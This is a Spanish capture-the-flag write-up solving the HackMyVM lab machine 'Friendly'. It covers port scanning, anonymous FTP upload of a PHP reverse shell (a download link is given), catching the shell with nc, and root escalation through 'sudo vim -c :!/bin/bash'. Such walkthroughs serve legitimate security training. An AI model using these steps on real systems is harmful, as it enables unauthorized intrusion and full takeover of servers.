




Red Team & Ctf Pl4yer
HackMyVm - Friendly
Autor: RiJaba1

Escaneo de puertos
❯ nmap -p- -T5 -n -v 192.168.1.12
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 21,80 192.168.1.12
PORT STATE SERVICE VERSION
21/tcp open ftp ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 root root 10725 Feb 23 15:26 index.html
80/tcp open http Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
HTTP
Tenemos la página por defecto de apache.
❯ curl -s http://192.168.1.12 | html2text
[Debian Logo] Apache2 Debian Default Page
It works!
This is the default welcome page used to test the correct operation of the
Apache2 server after installation on Debian systems. If you can read this page,
it means that the Apache HTTP server installed at this site is working
properly. You should replace this file (located at /var/www/html/index.html)
before continuing to operate your HTTP server.
If you are a normal user of this web site and don't know what this page is
about, this probably means that the site is currently unavailable due to
maintenance. If the problem persists, please contact the site's administrator.
Configuration Overview
FTP
Me conecto al servidor FTP con el usuario anonymous y veo un archivo index.html se trata del archivo por defecto del servidor apache.
❯ ftp 192.168.1.12
Name (192.168.1.12:noname): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||31488|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx 2 root root 4096 Mar 11 09:13 .
drwxrwxrwx 2 root root 4096 Mar 11 09:13 ..
-rw-r--r-- 1 root root 10725 Feb 23 15:26 index.html
226 Transfer complete
Me doy cuenta de que tengo permisos de lectura, escritura y ejecución creo un archivo con el nombre phpinfo.php y lo subo al servidor FTP para ver si interpreta código php.

Con Firefox abro el archivo phpinfo.php y veo que interpreta código php.

Me he descargado esta shell y la he configurado apuntando a mi dirección ip. "Algunos navegadores detectan este archivo como malicioso ya que es una shell en php y podrían denegarte la descarga".
http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
Subo la php-reverse-shell.php al servidor FTP con el comando put.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||47066|)
150 Opening BINARY mode data connection for php-reverse-shell.php
100% |****************************************| 3463 66.05 MiB/s 00:00 ETA
226 Transfer complete
3463 bytes sent in 00:00 (2.60 MiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||58099|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx 2 root root 4096 Mar 24 12:21 .
drwxrwxrwx 2 root root 4096 Mar 24 12:21 ..
-rw-r--r-- 1 root root 10725 Feb 23 15:26 index.html
-rw-r--r-- 1 ftp nogroup 3463 Mar 24 12:18 phpinfo.php
-rw-r--r-- 1 ftp nogroup 3463 Mar 24 12:21 php-reverse-shell.php
226 Transfer complete
Uso curl para entablarme la reverse-shell.
❯ curl -s http://192.168.1.12/php-reverse-shell.php
Obtengo la shell.
❯ nc -lvp 1234
listening on [any] 1234 ...
192.168.1.12: inverse host lookup failed: Unknown host
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.12] 47948
Linux friendly 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
08:25:02 up 11 min, 0 users, load average: 0.00, 0.02, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
Realizo el tratamiento de la tty para una zsh.
script /dev/null -c bash
ctrl +z
stty raw -echo;fg
reset
xterm
export TERM=xterm SHELL=bash
stty -row 46 columns 188
Lanzo sudo -l para ver que permisos tengo con sudo.
www-data@friendly:/home/RiJaba1$ sudo -l
Matching Defaults entries for www-data on friendly:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on friendly:
(ALL : ALL) NOPASSWD: /usr/bin/vim
Me voy a gtfobins y busco vim.

Lanzo el comando de gtfobins para obtener el root solo que la parte del comando donde poner "/bin/sh" lo he cambiado por "/bin/bash".
www-data@friendly:/home/RiJaba1$ sudo /usr/bin/vim -c ':!/bin/bash'
root@friendly:~# whoami
root
Al intentar leer la flag de root me encuentro con el siguiente mensaje.
root@friendly:~# cat root.txt
Not yet! Find root.txt.
Uso find para encontrar el archivo root.txt.
root@friendly:~# find / -name root.txt 2>/dev/null
Y con esto ya resolvemos la máquina friendly, nos vemos!